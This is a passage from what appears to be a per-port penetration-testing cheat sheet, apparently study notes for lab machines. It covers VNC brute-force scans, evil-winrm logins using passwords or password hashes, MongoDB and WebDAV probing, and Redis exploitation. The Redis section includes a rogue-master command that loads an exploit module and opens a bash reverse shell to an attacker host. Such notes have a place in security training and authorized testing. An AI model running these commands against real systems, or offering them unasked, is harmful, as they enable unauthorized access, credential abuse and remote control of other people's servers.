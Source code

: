 ### Erland Port Mapper - 4369

https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd

### VNC - 5900

```bash
nmap --script=vnc-info,vnc-brute,vnc-title -p 5900 10.11.1.111

vncviewer 127.0.0.1:5000 -passwd secret
```

### WinRM - 5985

```bash
https://github.com/Hackplayers/evil-winrm
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```

### Redis - 6379

Ref: Sybaris, Wombo

```bash
https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis

https://github.com/vulhub/redis-rogue-getshell.git
sudo python3 redis-master.py -r 192.168.89.69 -L 192.168.49.89 -P 80 -f RedisModulesSDK/exp.so -c "bash -c 'bash -i >& /dev/tcp/192.168.49.89/8080 0>&1'"

```

### MsDeploy - 8172

```bash
Microsoft IIS Deploy port
IP:8172/msdeploy.axd
```

### Port 27017 - MongoDB

https://book.hacktricks.xyz/pentesting/27017-27018-mongodb

```bash
nmap -sV --script "mongo* and default" -p 27017 <IP> #By default all the nmap mongo enumerate scripts are used
```

### Webdav

```bash
davtest -cleanup -url http://target
cadaver http://target
```
